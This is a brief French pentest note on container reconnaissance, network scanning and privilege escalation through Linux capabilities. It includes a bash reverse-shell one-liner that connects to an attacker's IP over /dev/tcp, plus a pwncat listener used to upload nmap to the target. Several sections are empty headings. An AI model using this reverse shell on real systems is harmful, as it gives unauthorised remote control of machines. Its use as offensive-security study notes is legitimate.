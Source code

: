 # Reconnaissance
Un fichier .dockerenv à la racine du système révèle le fait que l'on est dans un conteneur docker.
De plus la commande <code>hostname</code> peut donner un indice 
# Scanning & Enumeration
## Scan réseau
Utilisation du binaire statique de nmap https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap.
Pour l'envoyer sur la machine :  
1. Côté attaquant:
<code>pwncat-cs -lp 1337</code>

2. Côté cible
<code>bash -c 'bash -i >& /dev/tcp/$YOUR_IP/1337 0>&1'</code>

3. Côté attaquant
<code>upload /chemin/nmap</code>

# Exploitation (Gaining Access)

# Privilege Escalation
## Lister les capabilities
```console
capsh --print
```
Liste des exploists liés aux capabilities https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#cap_dac_read_search 
# Lateral Movement

# Resources
